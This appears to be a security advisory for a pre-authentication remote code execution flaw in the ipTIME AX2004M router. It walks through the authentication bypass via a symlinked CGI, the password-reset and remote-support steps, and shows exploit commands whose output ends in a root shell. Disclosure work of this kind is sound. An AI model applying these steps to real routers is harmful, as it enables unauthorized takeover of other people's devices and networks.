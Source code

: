 # ipTIME AX2004M pre-auth remote code execution (KVE-2023-0133)

## General information
- Vendor: ipTIME
- Product: AX2004M
- Version: 14.19.0

## Technical details
### Vulnerability analysis

ipTIME AX2004M has a logic bug in validating authentication.

```c
    e_log_init("cgi.timepro");
    if ( httpcon_check_session_url() && !httpcon_auth(1, 1) )
        return 0;
```

This is code from `timepro.cgi` in AX2004M, which supports management of the
device. This binary early exits if the url is session url (i.e., starts from
'/sess-bin') without authentication.

```txt
Port 80
User root
Group root
ServerAdmin root@localhost
VirtualHost
DocumentRoot /home/httpd
UserDir public_html
DirectoryIndex index.html
KeepAliveMax 100
KeepAliveTimeout 10
MimeTypes /etc/mime.types
DefaultType text/plain
AddType application/x-httpd-cgi cgi
AddType text/html html
AddType image/svg+xml svg
ScriptAlias /sess-bin/ /cgibin/
ScriptAlias /nd-bin/ /ndbin/
ScriptAlias /login/ /cgibin/login-cgi/
ScriptAlias /ddns/ /cgibin/ddns/

...

```

Meanwhile, `boa_vh.80.conf` configures the web server of ipTIME AX2004M.  Its
DocumentRoot is `/home/httpd`. This indicates that we can use binaries in the
`/home/httpd`.

```sh
$ ls -als ./home/httpd/cgi
total 476
  4 drwxr-xr-x  2 insu insu   4096 Feb 11 02:32 .
  4 drwxrwxrwx 25 insu insu   4096 Feb 10 10:27 ..
 20 -rwxr-xr-x  1 insu insu  18016 Jan  1  1970 iux.cgi
 20 -rwxr-xr-x  1 insu insu  19372 Jan  1  1970 iux_download.cgi
136 -rwxr-xr-x  1 insu insu 135796 Jan  1  1970 iux_get.cgi
112 -rwxr-xr-x  1 insu insu 113472 Jan  1  1970 iux_set.cgi
  8 -rwxr-xr-x  1 insu insu   5820 Jan  1  1970 service.cgi
172 -rw-r--r--  1 insu insu 173261 Feb 11 02:32 service.cgi.idb
  0 lrwxrwxrwx  1 insu insu     19 Jan  1  1970 timepro.cgi -> /cgibin/timepro.cgi
  0 lrwxrwxrwx  1 insu insu     19 Jan  1  1970 upgrade.cgi -> /cgibin/upgrade.cgi
```

In `/home/httpd/cgi`, there is a symbolic link that points to
`/cgibin/timepro.cgi`. This represents that if we access
`http://{host}/cgi/timepro.cgi`, we can use `timepro.cgi` without
authentication due to the previous check in `timepro.cgi`. Remind that
`timepro.cgi` only checks authentication if a path is a session url.

### How to exploit
Our exploit implements in two steps. First, we use `timepro.cgi` to reset
password to the password that we want. After that, we enable remote support
option in ipTIME AX2004M and use its feature to launch shell. This remote support
option works like backdoor as we can see from other article
(https://live2skull.tistory.com/5).

### How to reproduce
```sh
# NOTE: You need to give a correct captcha by checking the url manually
$ python3 exploit.py --host 192.168.0.1  reset_password
[*] Solve captcha from http://192.168.0.1:80/captcha/72TeDDT7J55urAX28bx39hOdRP8T0ael.gif
uacvu
[+] Successfully reset password: id=admin, pw=pwned

$ python3 exploit.py --host 192.168.0.1  spawn_shell
[+] Successfully enable remotesupport
[*] Solve captcha from http://192.168.0.1:80/captcha/473uqvH5k7pXG268BOq24u14twyBxKhl.gif
xuabm
$ id
uid=0(root) gid=0(root) groups=0(root),0(root)
```

Enjoy [our demo video](https://youtu.be/Z1Jl9S77gRQ) :)

### Credit
- Kanghyuk Lee  (babamba@kaist.ac.kr)
- Insu Yun (insuyun@kaist.ac.kr)
- Anonymous researcher who reported this to KISA earlier than us :)
